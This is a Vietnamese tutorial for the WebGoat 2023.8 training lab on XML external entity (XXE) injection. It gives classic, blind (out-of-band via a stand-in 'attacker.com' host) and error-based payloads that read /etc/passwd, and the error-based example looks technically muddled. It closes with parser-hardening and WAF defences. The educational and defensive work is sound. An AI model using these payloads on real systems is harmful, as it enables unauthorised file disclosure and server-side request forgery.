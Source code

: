 ```yaml
---
title: 1.02 | XXE
slug: XXE-02
description: Bài viết này sẽ hướng dẫn cách tấn công XXE trên WebGoat 2023.8
image: https://tiennhm.github.io/img/docs/database.jpg
sidebar_position: 1
# sidebar_class_name: hidden
tags: 
    - web-security
    - webgoat
    - security-misconfiguration
    - xxe
    - webgoat-2023.8
keywords: [web-security, webgoat, security-misconfiguration, xxe, webgoat-2023.8]
enableComments: true # for Gisqus comments, set to true
draft: false # set to true to hide this post from the site
---
```


> 🔍 **XML Entities & XXE Injection**  

## 📌 **1. XML Entity là gì?**  
Trong XML, **Entity** là các thành phần có thể thay thế bằng nội dung cụ thể khi XML được parse. Có 3 loại chính:  
1️⃣ **Internal Entity** – Được định nghĩa trong DTD, chỉ sử dụng trong tài liệu XML.  
2️⃣ **External Entity** – Tham chiếu đến dữ liệu bên ngoài như file hệ thống hoặc URL.  
3️⃣ **Parameter Entity** – Được sử dụng trong nội bộ DTD để tái sử dụng nội dung.  

Ví dụ về **Internal Entity**:  
```xml
<?xml version="1.0"?>
<!DOCTYPE users [
    <!ENTITY js "Jo Smith">
]>
<user>
    <name>&js;</name>
</user>
```
Khi XML parser xử lý, `&js;` sẽ được thay thế bằng `"Jo Smith"`.


## 🔥 **2. XML Parser và cách thức hoạt động**  
Hệ thống sử dụng **XML parsers** để xử lý XML và có thể tự động ánh xạ dữ liệu vào các đối tượng trong ứng dụng.  

Ví dụ trong Java:  
```java
@XmlRootElement
class User {
    public String name;
}
```
Ứng dụng có thể nhận XML từ client và chuyển thành đối tượng `User`.


## 🚨 **3. XXE Injection là gì?**  
**XXE (XML External Entity Injection)** là kỹ thuật tấn công khi ứng dụng xử lý XML đầu vào mà không vô hiệu hóa External Entity. Điều này có thể dẫn đến:  
✔ **Đọc file nhạy cảm** (`/etc/passwd`, `C:\Windows\System32\drivers\etc\hosts`)  
✔ **Tấn công DoS** (bằng "Billion Laughs Attack")  
✔ **SSRF** (yêu cầu đến API nội bộ, dịch vụ cloud)  
✔ **Quét cổng và pivoting** (sử dụng ứng dụng làm cầu nối đến hệ thống khác)  
✔ **Thực thi mã độc** (nếu XML parser có lỗi bộ nhớ)  


## 💣 **4. Các dạng XXE tấn công phổ biến**  
### 🔹 **1. Classic XXE (Tiết lộ file hệ thống)**  
Payload đọc `/etc/passwd`:  
```xml
<?xml version="1.0"?>
<!DOCTYPE data [
    <!ENTITY file SYSTEM "file:///etc/passwd">
]>
<data>&file;</data>
```
⏩ Nếu server không chặn External Entity, nó sẽ trả về nội dung file `/etc/passwd`.

### 🔹 **2. Blind XXE (Không có phản hồi trực tiếp)**  
Nếu ứng dụng không hiển thị lỗi hoặc nội dung file, hacker có thể dùng **out-of-band (OOB) attack**:  
```xml
<!DOCTYPE data [
    <!ENTITY xxe SYSTEM "http://attacker.com/log?data=/etc/passwd">
]>
<data>&xxe;</data>
```
⏩ Nếu server gửi request đến `attacker.com`, hacker biết hệ thống bị dính XXE.

### 🔹 **3. Error-based XXE**  
Lợi dụng lỗi xử lý XML để rò rỉ dữ liệu qua thông báo lỗi:  
```xml
<!DOCTYPE foo [
    <!ENTITY % xxe SYSTEM "file:///etc/passwd">
    <!ENTITY file "<!ENTITY xxe SYSTEM 'file:///etc/passwd'>">
]>
<user>&file;</user>
```
⏩ Nếu parser phản hồi lỗi chứa nội dung file, hacker có thể khai thác.


## 🛡 **5. Cách phòng chống XXE**  
✅ **Vô hiệu hóa DTD & External Entity trong XML Parser**  
Trong Java:
```java
DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
```
Trong .NET:
```csharp
XmlReaderSettings settings = new XmlReaderSettings();
settings.DtdProcessing = DtdProcessing.Prohibit;
```

✅ **Dùng JSON thay vì XML**  
JSON không hỗ trợ entity → an toàn hơn.

✅ **Hạn chế quyền truy cập file trên server**  
Dùng **chroot, SELinux** để giới hạn truy cập file hệ thống.

✅ **Sử dụng WAF (Web Application Firewall)**  
Chặn payload chứa `<!ENTITY` hoặc `SYSTEM`.

